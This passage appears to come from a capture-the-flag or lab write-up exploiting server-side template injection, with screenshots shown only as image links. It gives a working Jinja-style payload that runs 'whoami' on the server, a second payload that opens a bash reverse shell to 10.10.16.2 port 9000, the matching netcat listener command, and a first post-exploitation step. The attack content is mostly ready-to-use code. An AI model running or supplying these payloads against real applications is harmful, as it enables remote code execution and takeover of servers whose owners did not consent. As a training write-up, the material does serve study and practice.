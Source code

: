 - SSTI

![](/img2/Pasted%20image%2020250514133438.png)

![](/img2/Pasted%20image%2020250514133710.png)

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('whoami').read() }}
```

- Reverse shell

![](/img2/Pasted%20image%2020250514133953.png)

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.16.2/9000 0>&1"').read() }}
```

```bash
nc -nlvp 9000
```

## Post-exploitation

- Check all interfaces

```bash
ip a
```

![](/img2/Pasted%20image%2020250514151344.png)

